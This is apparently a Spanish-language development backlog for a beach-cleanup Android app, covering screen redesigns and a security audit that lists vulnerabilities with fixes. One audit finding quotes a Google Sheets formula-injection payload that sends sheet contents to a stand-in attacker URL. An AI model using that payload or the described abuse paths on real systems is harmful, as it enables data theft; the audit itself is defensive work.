  - [x] Validaciones y guardado en Room sin cambios; errores bajo cada campo (56 tests en verde).
  - [x] Verificado en emulador (1080×2400): líder, voluntario con globo y lista, playa, Siguiente habilitado, teclado abierto.

### `[ISSUE-45]` 🛠️ Botón de desarrollo "Eliminar jornada en curso" en la P1 — **quitar antes del piloto**
> **Decisiones del 07-11-2026:** basurero rojo arriba a la derecha de la P1, visible solo con una jornada en curso y en **todas** las variantes (debug y release), porque se usa desde el celular. Pide confirmación con un diálogo que explica qué se borra.
* Borra del teléfono la jornada `EN_CURSO` (participantes, herramientas y basura en cascada) y sus fotos locales, y detiene el GPS. No toca jornadas cerradas, catálogos ni Supabase.
* ⚠️ **Riesgo:** mientras exista, un líder podría borrar una jornada real. Antes de ISSUE-29 (piloto) se quita o se deja solo en `debug` (`BuildConfig.DEBUG`).

### `[ISSUE-46]` ✅ Rediseño UI: Pantalla 3 "Seleccionar sector a limpiar" · 0,5 d
> **Decisiones del 07-11-2026** (según la imagen de diseño, con la paleta y Nunito actuales; solo visual):
> 1. Título "Seleccionar sector a limpiar"; subtítulos "Seleccionar sector" (sin "(es)" ni total de m²) y "Foto de sector inicio" (sin "(Sucio)").
> 2. Sectores uno por fila, a todo el ancho de la tarjeta (ajuste del 07-11-2026; antes grilla de 2 columnas), mismo botón que las brigadas de la P2. Solo se ve el nombre ("Sector 1 - Norte"): sin "(2.000 m²)" ni "Superficie: …"; los m² se siguen calculando internamente.
> 3. Visor de foto con esquinas y botón verde "Tomar foto de inicio" encima de la ilustración `playa_sucia_p3` (WebP en `res/drawable-nodpi`; original `Mockup/assets/background_playa_sucia.jpg`); con foto, vista previa y "Repetir foto de inicio".
> 4. "Continuar sin fotografía" (sin "(omitir)"), también en la P8. Al omitir, el área de la foto cambia a un fondo celeste "Sin fotografía" (cámara tachada, sin la ilustración) con el motivo obligatorio (ISSUE-35) en una tarjeta blanca. El campo de motivo (P3 y P8) usa el formato del flujo: bordes redondeados, aviso suave "Obligatorio para continuar" (no en rojo) y contador.
> 5. Botón Siguiente en píldora verde; ✓ verde junto al subtítulo cuando la foto está resuelta.
* Piezas comunes del flujo en `ComponentesFlujo.kt` (tarjeta, subtítulo, botón de selección, Siguiente), usadas por la P2 y la P3.
* **Criterios de aceptación:**
  - [x] `SectoresFotoInicioScreen` según las decisiones 1–5; sin cambios de lógica ni de Room.
  - [x] Test de `nombreSectorVisible` (quita solo la superficie final).
  - [x] Verificado en emulador: selección múltiple, ilustración, omitir con motivo.

### `[ISSUE-47]` 📝 Nombres de sector sin la superficie en el catálogo — mejora futura
* **Hallazgo (07-11-2026, ISSUE-46):** `sector_catalogo.nombre_sector` trae la superficie pegada (`"Sector 1 - Norte (2.000 m²)"`), duplicando `area_m2`. Hoy la app la quita solo al mostrarla (`nombreSectorVisible`).
* **Propuesta:** dejar el nombre limpio en Supabase, `CatalogoSeedData` y `supabase_schema.sql`, y usar siempre `area_m2` como dato. Sirve para calcular datos (m² limpiados, densidad, KPIs de ISSUE-30) y para reportes sin texto duplicado ni inconsistente si cambia la superficie.
* Coordinar con el administrador; las jornadas ya hechas guardan el id del sector, así que no se ven afectadas.

### `[ISSUE-48]` ✅ Rediseño UI: Pantalla 4 "Herramientas de la brigada" · 0,5 d
> **Decisiones del 07-11-2026** (sin imagen de diseño: mismo formato de la P2 y la P3, con la paleta y Nunito actuales; solo visual):
> 1. Sin imagen de referencia: se siguen las piezas de `ComponentesFlujo.kt`.
> 2. Título `TituloPantallaFlujo("Herramientas de la brigada")`.
> 3. Dos tarjetas: (1) "Escanear herramienta" con el visor de cámara y esquinas blancas tipo visor, y debajo el desplegable "Elige una herramienta" + botón redondo verde "+" (gris si no hay nada elegido, como en la P2), reemplazando el botón "Agregar"; (2) "Herramientas agregadas" con ícono de herramienta y globo de cantidad (como los voluntarios de la P2) y la lista.
> 4. "Esta brigada no lleva herramientas" bajo la tarjeta 1 (como "Continuar sin fotografía" en la P3); al marcarla, el visor cambia a un fondo "Sin herramientas" con ícono (como el fondo "Sin fotografía") y el desplegable queda deshabilitado.
> 5. Desplegable sin preselección (placeholder "Elige una herramienta"); tras agregar vuelve al placeholder. Las dañadas siguen como "Pinza 2 (Dañado)"; las extraviadas siguen ocultas.
> 6. Mensajes del escaneo en una línea con ícono y color: verde con ✓ al agregar, rojo con ⚠ en error.
> 7. Filas: solo el nombre y basurero delineado; etiqueta roja "Dañado" solo si corresponde (antes "Estado: Operativo" en todas). Lista vacía: "Aún no hay herramientas".
> 8. Sin permiso de cámara: fondo celeste con ícono de cámara y botón "Permitir cámara" con el estilo nuevo.
> 9. Botón Siguiente en píldora verde (`BotonSiguienteFlujo`).
* **Criterios de aceptación:**
  - [x] `HerramientasQrScreen` según las decisiones 1–9; sin cambios en reglas de negocio ni en Room. Única adición al estado: `qrFeedbackEsError` (color del mensaje).
  - [x] Tests en verde (61), con aserciones de `qrFeedbackEsError` en los tests de P4.
  - [x] Verificado en emulador (1080×2400): visor con esquinas, agregar desde el desplegable (vuelve al placeholder), mensaje verde, etiqueta "Dañado", globo de cantidad, basurero, "no lleva herramientas" y sin permiso de cámara.
* **Ajustes del 07-11-2026:** el aviso verde "Agregada: …" aparece con un fundido corto y a los 2 s se desvanece (0,6 s) antes de cerrar su espacio (los errores en rojo quedan hasta el siguiente intento); el basurero de cada fila queda pegado a la derecha (antes quedaba al centro del espacio libre).
* `FondoVacioFlujo` y `Modifier.esquinasVisor` pasan a `ComponentesFlujo.kt` (compartidos con la P3).
* 📝 **Pendiente menor:** si el líder elige "No permitir" de forma definitiva, Android ya no muestra el diálogo y "Permitir cámara" no hace nada (igual que antes del rediseño). Mejora posible: en ese caso abrir los ajustes de la app.

### `[ISSUE-49]` ✅ Rediseño UI: Pantalla 5 "Registro de residuos" · 0,5 d
> **Decisiones del 07-11-2026** (según la imagen de diseño, con la paleta y Nunito actuales; solo visual):
> 1. Título "Registro de residuos" (antes "Limpieza y Conteo").
> 2. Tarjeta superior sobre la ilustración `portada_p1`: "Ítems registrados" con el total en grande (formato chileno, "1.453") y la hoja en un círculo blanco; franja inferior "Distancia: 3,25 km" (sin "(tiempo real)") con ícono de ubicación verde si el GPS está activo y gris si no. **Ajuste del 07-11-2026:** el ícono de ubicación va a la izquierda, pegado a la distancia, y a la derecha el tiempo de limpieza en vivo ("00:42:15", desde "Comenzar limpieza"; se congela al finalizar).
> 3. Grilla de 3 columnas con el nombre completo del catálogo en hasta 2 líneas (10 tipos → 4 filas, la última con uno; se desplaza si no cabe). Sin "Origen: …". Nombres cortos: mejora futura en ISSUE-50.
> 4. Recuadro `VerdeMenta`, número azul marino extra negrita; [-1] blanco con borde (deshabilitado en 0) y [+1] `VerdeAccion`. ~~[+10] `VerdeAccionOscuro`~~ — **se quita el [+10] (07-11-2026)**.
> 5. Un solo botón abajo: "Comenzar limpieza" (píldora verde con play; la grilla se ve atenuada y bloqueada) → "Finalizar limpieza" (~~píldora azul marino con escoba~~ → **píldora `RojoCalido` #E0533D sin ícono**, ajuste del 07-11-2026; el "Sí, finalizar" del diálogo usa el mismo color). Se mantiene el diálogo de confirmación, con el estilo del flujo.
> 6. Sin barra de navegación inferior (pantalla del flujo).
> 7. Vibración muy breve al tocar -1, +1 y +10.
* **Criterios de aceptación:**
  - [x] `LimpiezaBotoneraScreen` según las decisiones 1–7; sin cambios en reglas de negocio, GPS ni Room.
  - [x] Tests en verde (61).
  - [x] Verificado en emulador (1080×2400): tarjeta superior con total y distancia, conteo (+1, +10, +10, -1 → 20 en el recuadro y en el total; antes de quitar el [+10]), [-1] deshabilitado en 0, diálogo de finalizar. *Sin ver en emulador: el estado "Comenzar limpieza" (la jornada de prueba ya tenía la limpieza iniciada).*
* Nombres largos: alto fijo de 2 líneas por recuadro y la letra baja de 13sp hasta 11sp si no cabe ("Toallitas húmedas / higiene"), para que las filas queden parejas.
* Con 10 tipos, la última fila queda bajo el borde y se ve desplazando la grilla.
* **Ajuste del 07-11-2026 (tarjetas sobrantes):** la grilla se adapta a cualquier cantidad de tipos para que ninguna tarjeta quede sola: múltiplo de 3 → filas de 3; sobran 2 → las 2 últimas a media fila cada una; sobra 1 → la última a todo el ancho en versión horizontal (nombre, número y botones en una línea). Regla en `spanTarjetaResiduo` (grilla de 6 partes) con test.

### `[ISSUE-50]` 📝 Nombres cortos para los tipos de residuo — mejora futura
* **Hallazgo (07-11-2026, ISSUE-49):** los nombres del catálogo (`tipo_basura_catalogo.nombre_visible`) son largos ("Envoltorios / bolsas plásticas") y en la grilla de 3 columnas de la P5 ocupan 2 líneas con letra pequeña.
* **Propuesta:** columna `nombre_corto` en Supabase, `CatalogoSeedData` y `supabase_schema.sql` ("Colillas", "PET", "Latas"…), usada solo en la grilla; los reportes siguen con el nombre completo. Coordinar con el administrador.

### `[ISSUE-51]` ✅ Rediseño UI: Pantalla 6 "Fotografías de evidencia" · 0,5 d
> **Decisiones del 08-11-2026** (mismo formato de la P3, con la paleta y Nunito actuales; solo visual):
> 1. Título "Fotografías de evidencia" (antes "Fotografías de Evidencia Final").
> 2. Dos tarjetas iguales (50/50) y botón Siguiente en píldora verde (`BotonSiguienteFlujo`). Cada tarjeta: subtítulo verde con ✓ al quedar resuelta, visor con esquinas tipo cámara y botón verde de cámara encima, y "Continuar sin fotografía" abajo.
> 3. Subtítulos sin numeración: "Foto de sector limpio" y "Foto de sacos llenos".
> 4. Ilustraciones del visor sin foto: sector limpio usa `playa_limpia_p6.webp` (original `Mockup/assets/background_playa_limpia.jpg`; ~~reutilizar `portada_p1`~~, cambiado el 08-11-2026 a la ilustración nueva); sacos usa `sacos_p6.webp` (original `Mockup/assets/background_sacos.jpg`).
> 5. Botones: "Tomar foto de sector limpio" / "Repetir foto de sector limpio" y "Tomar foto de sacos" / "Repetir foto de sacos".
> 6. "Continuar sin fotografía" como en la P3: fondo "Sin fotografía" con el motivo encima en una tarjeta blanca; el campo usa 1–2 líneas (en la P3, 2–3) para caber en el visor más bajo.
> 7. `VisorFotoFlujo` y `BotonCamaraFlujo` pasan a `ComponentesFlujo.kt` (compartidos con la P3, sin cambio visual en ella).
> 8. Sin cambios de lógica: permisos, compresión 720p, motivo obligatorio y habilitación de Siguiente.
* **Criterios de aceptación:**
  - [x] `EvidenciasFinalesScreen` según las decisiones 1–8; sin cambios en reglas de negocio ni en Room.
  - [x] Tests en verde (66).
  - [x] Verificado en emulador (1080×2400): ambos visores con su ilustración y botón de cámara, y "Continuar sin fotografía" con el fondo "Sin fotografía" y el motivo cabiendo en el visor. *Sin probar en emulador: la toma de foto real.*

### `[ISSUE-52]` ✅ Rediseño UI: Pantalla 8 "Resumen y pesaje" · 0,5 d
> **Decisiones del 08-11-2026** (mismo formato de las pantallas anteriores, con la paleta y Nunito actuales; solo visual salvo el texto del aviso):
> 1. Título "Resumen y pesaje" (antes "Resumen y Pesaje en Acopio").
> 2. Tarjeta "Resumen del recorrido": una fila por dato con ícono a la izquierda y valor en negrita a la derecha — Líder ("Nombre · Brigada A"), Horario ("10:05 – 11:47"), **Tiempo transcurrido** (nuevo, "01:42:15", mismo formato del cronómetro de la P5, entre inicio y fin de la limpieza) y Distancia ("3,25 km", con coma).
> 3. Tarjeta "Pesaje en acopio": desplegable del encargado con el estilo de la P4, placeholder "Elige al encargado de pesaje" (sin "(Obligatorio)"); "Otra persona" sigue abriendo el campo del nombre.
> 4. Campos con textos cortos ("Cantidad de sacos", "Kg basura normal", "Kg basura reciclable"), sufijo "sacos"/"kg" dentro y un ícono a la derecha, fuera del campo: saco propio (`ic_saco.xml`) verde, basurero azul petróleo y reciclaje verde.
> 5. Bloque `VerdeMenta` con "Total extraído" en grande y "Promedio por saco", más una barra del promedio frente al máximo ("Máx. 25 kg por saco (Ley 20.949)"), en `RojoCalido` si lo supera.
> 6. Aviso de error como el de la P4 (una línea roja con ⚠). Texto de la Ley del Saco acortado: "El promedio por saco supera los 25 kg (Ley 20.949)."
> 7. Contenido desplazable (teclado) y botón Siguiente fijo abajo (`BotonSiguienteFlujo`).
> 8. Decimales: se mantiene que "3,5" se vea como "3.5" al escribir. 📝 Mejora menor pendiente: mostrar la coma en los campos de kg.
* **Criterios de aceptación:**
  - [x] `PesajeResumenScreen` según las decisiones 1–8; sin cambios en reglas de negocio ni en Room (solo el texto del aviso de la Ley del Saco).
  - [x] Tests en verde (66).
  - [x] Verificado en emulador (1080×2400): resumen con tiempo transcurrido, íconos de los campos, 2 sacos + 10,5 + 5 kg → "15,5 kg" y "7,75 kg" con barra verde; 1 saco + 30 kg → promedio, barra y texto en `RojoCalido` y aviso rojo; aviso de máximo de sacos.
* **Ajuste del 08-11-2026 (resumen más corto):** las 4 filas pasan a una grilla 2×2 compacta (ícono en círculo menta, etiqueta chica y valor en negrita), sin divisores, para no desplazar tanto la pantalla. La brigada va en la etiqueta ("Líder · Brigada A") y el valor solo con el nombre, para que nada se corte.
* **Ajuste del 08-11-2026 (sacos sin teclado):** "Cantidad de sacos" pasa a contador [–] número [+] (0 a 100; [–] blanco con borde y [+] verde como en la P5, gris al llegar al límite) dentro del mismo recuadro con etiqueta y el ícono de saco afuera. Un toque = 1 saco; mantener presionado repite (tras 0,4 s, cada 0,09 s). El número no se selecciona ni abre el teclado. Sin vibración. Los kg siguen con teclado (llevan decimales de la balanza y pueden llegar a 2.500 kg).
* `MensajeEscaneo` de la P4 pasa a `ComponentesFlujo.kt` como `MensajeFlujo` (P4 y P8), junto con `LocaleChile` (antes en la P5).

### `[ISSUE-53]` ✅ Rediseño UI: Pantalla 9 "Entrega y destino de sacos" · 0,5 d
> **Decisiones del 08-11-2026** (mismo formato de las pantallas anteriores, con la paleta y Nunito actuales; solo visual):
> 1. Título "Entrega y destino de sacos" (antes "Entrega y Destino de Sacos").
> 2. Dos tarjetas, "Basura normal" y "Basura reciclable", sin numeración; junto al subtítulo el mismo ícono de la P8 (basurero / reciclaje) y a la derecha una etiqueta con los kilos del pesaje ("10,5 kg", con coma).
> 3. Opciones de destino con `BotonSeleccionFlujo` (como la brigada en la P2 y los sectores en la P3): una por fila a todo el ancho, verde la elegida y celeste las demás (antes radio buttons).
> 4. Con kilos se oculta "No aplicable" (no se puede elegir). Con 0 kg solo se muestra la nota "Sin kilos de basura normal: no aplica" (o reciclable); "No aplicable" queda guardado como hoy. Solo visual: reglas sin cambios.
> 5. N° guía de despacho: misma regla (solo con "Entregado a camión DIMAO"), campo con el estilo del flujo, etiqueta "N° guía de despacho (opcional)" y ejemplo "GD-2026-0041".
> 6. Botón final "Guardar jornada" en la píldora verde (antes "Guardar"); `BotonSiguienteFlujo` acepta texto e ícono opcional. ~~Con ✓ al final~~ — **sin ícono (ajuste del 08-11-2026)**.
> 7. Contenido desplazable y botón fijo abajo.
> 8. Sin cambios de lógica; los textos de las opciones se guardan tal cual en Room y Supabase.
* **Criterios de aceptación:**
  - [x] `EntregaSacosScreen` según las decisiones 1–8; sin cambios en reglas de negocio ni en Room.
  - [x] Tests en verde (66).
  - [x] Verificado en emulador (1080×2400) con 10 kg normal y 5 kg reciclable: encabezados con ícono y kilos, opciones en botones (sin "No aplicable"), guía de despacho visible solo con DIMAO, botón "Guardar jornada" sin ícono. *Sin ver en emulador: la nota de 0 kg.*
* `formatoKg` pasa de la P8 a `ComponentesFlujo.kt` (P8 y P9).

### `[ISSUE-54]` ✅ Animación de entrada al abrir la app · 0,25 d
> **Decisiones del 08-11-2026:**
> 1. Unos 2 s: pantalla completa `VerdeAccion` que en ~1 s se transforma suavemente en el degradado celeste de la app (`CieloClaro` → `CieloBlanco`); con el fondo casi celeste aparecen el logo y "Deja tu Playa Limpia" (fundido + leve crecimiento), pausa corta y fundido hacia el inicio.
> 2. Logo y título centrados; toda la animación se desvanece sobre el inicio (sin deslizarse al encabezado).
> 3. Logo y título iguales al encabezado del inicio (se reutiliza el mismo componente).
> 4. Pantalla de inicio del sistema (Android 12+) verde y sin ícono, y fondo de ventana verde en Android 8–11, para que no haya corte con la animación. Solo tema, sin librerías nuevas.
> 5. Solo al abrir la app desde cero (no al volver desde otra app ni al girar). Sin botón para saltarla; mientras dura, los toques no llegan al inicio.
> 6. Con las animaciones del sistema desactivadas, se salta.
* **Criterios de aceptación:**
  - [x] Animación según las decisiones 1–6 (`ui/screens/inicio/IntroAnimada.kt`, encima del inicio en `MainActivity`; el encabezado del inicio pasa a `EncabezadoApp`, compartido).
  - [x] Tests en verde (66).
  - [x] Verificado en emulador con capturas en secuencia (a velocidad normal y con las animaciones del sistema ×10): pantalla del sistema verde sin ícono → verde a celeste → logo y título centrados → inicio. En la versión de desarrollo el verde dura ~1,5 s más mientras carga la app la primera vez; se espera más corto en la versión de producción.

### `[ISSUE-55]` ✅ Rediseño UI: Pantalla 7 "Devolución de herramientas" · 0,5 d
> **Decisiones del 08-11-2026** (mismo formato de las pantallas anteriores, con la paleta y Nunito actuales; solo visual):
> 1. Título "Devolución de herramientas" (antes "Estado de Devolución de Herramientas").
> 2. Una sola tarjeta: subtítulo "Estado al devolver" con el ícono de herramienta y el globo de cantidad (como "Herramientas agregadas" en la P4), la ayuda "Marca cómo vuelve cada herramienta" y la lista desplazable (antes una tarjeta por herramienta).
> 3. Cada herramienta: nombre en negrita y tres botones del mismo ancho; el elegido con su color — Operativo `VerdeAccion`, Dañado `SyncAmarillo`, Extraviado `RojoCalido`; los demás celestes con borde (como la P2 y la P3). Herramientas separadas por una línea fina.
> 4. ~~Resumen sobre la lista con chips de colores ("8 operativas · 1 dañada · 0 extraviadas")~~ — **se quita (ajuste del 08-11-2026)**.
> 5. Todas parten en "Operativo", como hoy.
> 6. Botón Siguiente en píldora verde **sin flecha**.
> 7. Sin cambios de lógica (estados, guardado y paso a la P8).
* **Criterios de aceptación:**
  - [x] `EstadoHerramientasScreen` según las decisiones 1–7; sin cambios en reglas de negocio ni en Room.
  - [x] Tests en verde (66).
  - [x] Verificado en emulador (1080×2400) con 2 herramientas: globo de cantidad, cambio de estado ("Extraviado" y de vuelta a "Operativo"), colores verde / amarillo / rojo cálido y Siguiente sin flecha.

### `[ISSUE-56]` ✅ Rediseño UI: Pantalla 10 "Resumen de impacto" e imagen para Instagram · 0,5 d
> **Decisiones del 08-11-2026** (paleta y Nunito actuales):
> 1. Se rediseñan la pantalla y la imagen 1080×1920 que se comparte.
>    - **Imagen:** fondo con la playa limpia (`playa_limpia_p6`) al ~25 % sobre el degradado verde → azul petróleo (se mantiene, para que las cifras blancas se lean); logo con anillo blanco arriba al centro (~200 px) sobre el título; el resto igual (playa, fecha · brigada, kg, % reciclable, 4 cifras en tarjetas blancas, top 3 de residuos, hashtag y @cuenta), con espacios ajustados para que quepa.
> 2. Título "Resumen de impacto" (sin aviso de "Jornada guardada": también se llega desde el inicio y desde Reportes).
> 3. Vista previa dentro de una tarjeta blanca con sombra y esquinas redondeadas. **Sin ruedita de carga:** mientras se genera, la tarjeta queda vacía y la imagen aparece con un fundido; los botones quedan grises hasta entonces.
> 4. Botones: "Compartir en Instagram" en píldora verde con ícono de compartir; "Guardar en galería" en píldora blanca con borde, texto azul marino e ícono de descarga; "Volver al inicio" como enlace azul petróleo.
> 5. Mensajes con `MensajeFlujo` (verde con ✓ / rojo con ⚠); el verde se desvanece solo a los pocos segundos.
> 6. "No se encontró la jornada" sobre el fondo celeste con ícono (`FondoVacioFlujo`).
> 7. Sin cambios de lógica (generar, compartir, guardar, permisos).
* **Criterios de aceptación:**
  - [x] Pantalla e imagen según las decisiones 1–7 (`ResumenImpactoScreen`, `ResumenImpactoGenerator`).
  - [x] Tests en verde (66).
  - [x] Verificado en emulador (1080×2400) desde "Última jornada": imagen con logo y playa de fondo, tarjeta blanca, botones nuevos; "Guardar en galería" muestra el aviso verde y se desvanece a los ~3 s. *Sin probar: compartir en Instagram (no está instalado en el emulador) y "No se encontró la jornada".*
* En la vista previa la imagen se recorta (`Crop`) en vez de ajustarse, para no dejar franjas por el margen de la tarjeta.

### `[ISSUE-30]` 🔒 Rediseño de la planilla / `TABLERO_KPIs` desde Supabase — **bloqueado por la clienta**
* Pendiente de que la clienta reformule la planilla. Luego: definir columnas y KPIs (densidad diaria deduplicada, horas-voluntario con `total_participantes`, productividad, % valorización) y adaptar el conector.

### `[ISSUE-42]` ✅ Manejo de excepciones y mensajes de error · ~1,5 d
* **Origen (31-10-2026):** la sincronización falló con `HTTP 404 … Could not find the function public.sincronizar_jornada(p) in the schema cache` (PGRST202; los catálogos con PGRST205). Causa: en Supabase se ejecutó el reset v4 pero no `supabase_schema.sql` (o PostgREST no recargó su caché). La app no perdió datos (las jornadas siguen `PENDIENTE_SYNC`), pero mostró al líder un mensaje técnico y la descarga de catálogos falló **en silencio**.
> **Decisiones del 31-10-2026:**
> 1. Las jornadas rechazadas por la RPC pasan a `ERROR_SYNC` con el motivo guardado (`motivo_error_sync`); **además, la app valida antes de cerrar la jornada con las mismas reglas de la RPC** para que el rechazo no llegue a ocurrir.
> 2. Una jornada cerrada **nunca se edita** (evita falsificación). Solo "Reintentar", que reenvía exactamente los mismos datos (útil cuando el problema estaba en el servidor/catálogo).
> 3. Room v5 **sin migración** (destructiva desde v4: aún no hay datos reales). Supabase: reset + esquema con la nueva tabla `jornada_rechazada`.
> 4. Mensajes en lenguaje simple, mencionando al **administrador**; se muestran ~4 s en la línea de estado de la tarjeta de sincronización.
> 5. Si el servidor responde PGRST202/205: "Servidor en mantención" fijo y sin sincronizar.
> 6. Sin Crashlytics por ahora. 7. Errores en P2–P9: aviso corto abajo y se queda en la pantalla. 8. Solo `Log` de Android, sin nombres ni coordenadas.
> **Vista del reintento:** las rechazadas no cuentan como pendientes; la P1 muestra "N jornada(s) rechazada(s) · revisar en Reportes" (si no hay pendientes) y Reportes lleva un globo rojo; en Reportes las rechazadas van siempre arriba con el motivo y `[ Reintentar ]` (con internet envía en el momento con la misma animación; sin internet pasa a pendiente).
> **`jornada_rechazada` (Supabase):** copia de solo lectura de cada rechazo (payload, motivo, intentos, fecha) para que el administrador lo vea; se marca resuelta si luego la jornada entra.

* **Criterios de aceptación:**
  - [x] **Validación previa** al cerrar en P9 (`ValidadorJornada`, mismas reglas que la RPC).
  - [x] **Errores tipados** en `JornadaSyncRepository` (`sealed class ErrorSync`): sin internet / tiempo agotado, servidor no preparado (PGRST202/PGRST205, 404), no autorizado (401/403), jornada rechazada por validación de la RPC (`P0001` con el mensaje de la regla), error del servidor (5xx), foto local faltante, desconocido.
  - [x] **Transitorio vs. permanente:** los transitorios se reintentan (base para ISSUE-37 WorkManager); un rechazo de validación **no** se reintenta en bucle: la jornada pasa a un estado `ERROR_SYNC` con el motivo guardado, visible en Reportes, con opción "Reintentar".
  - [x] **Mensajes para el líder en lenguaje simple** (ej. "El servidor no está listo. Avisa a la coordinación. Tus datos siguen guardados en el teléfono."); el detalle técnico (código HTTP, código PostgREST, `id_registro`) va solo al log.
  - [x] **Catálogos:** `sincronizarCatalogosMaestros()` deja de tragarse el error (`catch (_: Exception) → false`); registra el motivo y, si falla, la app sigue con el catálogo local sin bloquear.
  - [x] **`CancellationException`:** los `catch (e: Exception)` dentro de corrutinas la vuelven a lanzar (hoy la capturan y cuentan una cancelación como error).
  - [x] **ViewModels:** los `viewModelScope.launch` que escriben en Room (P2–P9) atrapan errores de E/S y muestran un mensaje en vez de cerrar la app; revisar también cámara/compresión (`ImageCompressor`), escáner QR, servicio GPS y guardado/compartir de la P10.
  - [x] **Log centralizado** sin datos personales (sin nombres ni coordenadas); `HttpLoggingInterceptor` sigue solo en debug y nivel `BASIC` (ya es así: no expone la clave).
  - [x] **Diagnóstico previo al piloto:** al iniciar, si Supabase responde PGRST202/205 se muestra en la tarjeta de sincronización "Servidor en mantención" en vez de "N listas para sincronizar".
  - [x] ~~Crashlytics~~: decidido no usarlo por ahora (se evalúa después del piloto).
  - [x] Tests unitarios por cada tipo de error (404 PGRST202, 400 P0001, 401, 500, timeout, cancelación).

* **Notas de cierre (31-10-2026):** 56 tests unitarios en verde (18 de sincronización, 11 de `ValidadorJornada`, 21 de reglas, 6 de resumen). SQL probado en Postgres 15 local: instalación, reset y reinstalación sin errores; 34 casos OK (19 rechazos → `RECHAZADA: …`, registro con `intentos`, `resuelta` tras reintento, casts inválidos, anon sin acceso a `jornada_rechazada` ni a la función interna). Verificado en emulador: P1 con jornada rechazada (texto + globo) y Reportes con `[ Reintentar ]`. 
* **Prueba contra Supabase (07-11-2026), todo OK:**
  - Sin internet: la jornada queda "Pendiente de sincronización" y la P1 muestra "1 pendiente · sin internet" sin permitir sincronizar; al volver el internet se sincroniza.
  - Servidor en mantención (tabla `playa_catalogo` renombrada temporalmente): la P1 muestra "Servidor en mantención" y no sincroniza; en Reportes la jornada sigue pendiente.
  - Rechazo (sector `SECTOR-TEST` borrado en el servidor tras cerrar la jornada sin internet): `ERROR_SYNC` con "Sector desconocido o de otra playa", globo rojo y registro en `jornada_rechazada`; "Reintentar" sin cambios → rechazo otra vez (`intentos` 2); con el sector restaurado → sincronizada y `resuelta = true`.
  - Ajuste de UI: sin internet, la tarjeta de sincronización muestra una nube tachada gris y, si no hay pendientes, el texto "Sin internet".
## 🛡️ Épica 10: Auditoría de seguridad (08-11-2026)

> **Alcance:** código de la app, `supabase_schema.sql`, conector de Google Sheets e historial de git (7 commits), más pruebas en vivo con la clave pública. **Sin hallazgos:** inyección SQL (la RPC no usa SQL dinámico —sin `EXECUTE`/`format`— y lee el JSON con operadores tipados; Room y PostgREST usan parámetros); credenciales en el repositorio o el historial (no hay claves, contraseñas ni URL del proyecto; `local.properties` y keystores en `.gitignore`; la clave secreta no está en la app); permisos de `anon` verificados en vivo (tablas de jornada y `jornada_rechazada` → 401, `PATCH` al inventario → 401, función interna no accesible, bucket no listable); solo HTTPS; log HTTP solo en debug sin la clave; servicio GPS y `FileProvider` no exportados; sin respaldos en la nube.
> **No revisado:** visibilidad del repositorio en GitHub (sin `gh`), configuración del panel de Supabase (límites de tasa, otras claves activas) y las Script Properties del Apps Script publicado.

### `[ISSUE-57]` 🔴 Clave pública del APK: escritura abierta en Supabase — se resuelve con ISSUE-38
* **Hallazgo:** la clave publicable se extrae del APK en minutos. Con ella cualquiera puede: (a) enviar jornadas falsas por la RPC (altera los KPIs); (b) marcar herramientas como "Extraviado"/"Dañado" (ISSUE-39); (c) subir archivos de hasta 5 MB al bucket **público**: `allowed_mime_types` solo revisa el encabezado `Content-Type`, no el contenido, así que se podría alojar contenido arbitrario servido desde el proyecto.
* **Mitigación:** de fondo, ISSUE-38 (cuenta por teléfono; quitar `EXECUTE` y el `INSERT` del bucket a `anon`). Mientras tanto: repartir el APK solo a brigadas de confianza y revisar límites de tasa en el panel de Supabase.

### `[ISSUE-58]` 🔴 Inyección (parte RPC y app ✅; falta el conector) de fórmulas en Google Sheets — latente, corregir antes de ISSUE-27
* **Hallazgo:** el conector actual no funciona (lee `vista_reporte_jornadas`, que ya no existe, con la clave pública), pero cuando se rehaga y copie nombres, motivos de omisión, encargado de pesaje o N° de guía con `setValues()`, un texto que empiece con `=` se ejecutará como fórmula. Ej.: un "voluntario" `=IMPORTXML("https://atacante…?"&A1:Z99)` enviaría el contenido de la planilla a un tercero. Con ISSUE-57 cualquiera puede inyectar ese texto.
> **Decisiones del 13-11-2026:** en vez de vetar solo los símbolos iniciales, cada campo de texto libre acepta **solo sus caracteres permitidos** (lista blanca), con el mismo criterio en la app (error bajo el campo, no deja avanzar), en `ValidadorJornada` y en la RPC:
> - **Nombres** (líder, voluntarios, encargado de pesaje): letras (con tildes, ñ, ü), espacios y apóstrofo; empieza con letra; máx. 80.
> - **Motivo de omisión de foto:** letras, números y espacios; empieza con letra o número; máx. 120.
> - **N° de guía de despacho:** letras, números y guion; empieza con letra o número; 1 a 12 caracteres (ver ISSUE-60).
* **Criterios de aceptación:**
  - [x] RPC, `ValidadorJornada` y campos de la app con la misma lista blanca por campo.
  - [ ] Conector (ISSUE-27): anteponer `'` a todo texto antes de `setValues()`.

### `[ISSUE-59]` ✅ 🟠 ID de jornada corto: fotos públicas adivinables y suplantación de jornadas
* **Hallazgo:** el sufijo del ID son 6 caracteres hexadecimales de un UUID (`JornadaFlujoViewModel.kt`, `UUID.randomUUID().toString().take(6)`): ~16,7 millones de combinaciones por día. Las fotos (pueden mostrar caras, Ley 21.719 — ISSUE-40) son públicas en `…/REG-AAAAMMDD-XXXXXX_{1|2|3}_{tipo}.jpg`. Riesgos: (a) recorrer URLs por fuerza bruta; (b) **adelantarse a una jornada real**: si alguien sube antes una jornada o una foto con ese ID, la real recibe `YA_EXISTIA` / "ya existe", se marca sincronizada y sus datos se pierden en silencio.
> **Decisiones del 13-11-2026:** 12 caracteres hexadecimales del UUID. `insertJornada` pasa de `REPLACE` a `ABORT` (un `REPLACE` borra la fila y, en cascada, sus participantes, herramientas y conteos); si el ID ya existe se genera otro (hasta 3 intentos).
* **Criterios de aceptación:**
  - [x] Sufijo de 12 caracteres (~281 billones de combinaciones); el formato `[A-Z0-9]{4,12}` de la RPC, del bucket y de `ValidadorJornada` ya lo acepta.
  - [x] `insertJornada` con `ABORT` y reintento con otro ID.
  - [ ] De fondo (ISSUE-40): bucket privado con URLs firmadas.

### `[ISSUE-60]` ✅ 🟠 Llenado de la base de datos con la clave pública
* **Hallazgo:** `jornada_rechazada` acepta hasta 5.000 rechazos sin resolver de hasta 100 KB cada uno (`c_max_payload`): ~500 MB, todo el plan gratuito. Las jornadas válidas no tienen tope. Un payload real pesa 1–5 KB.
> **Decisiones del 13-11-2026:** `c_max_payload` 20 KB y `c_max_pendientes` 1.000 (peor caso ~20 MB). `nro_guia_despacho` era el único texto libre sin tope: máx. 12 caracteres (letras, números y guion).
* **Criterios de aceptación:**
  - [x] `c_max_payload` = 20 KB y `c_max_pendientes` = 1.000.
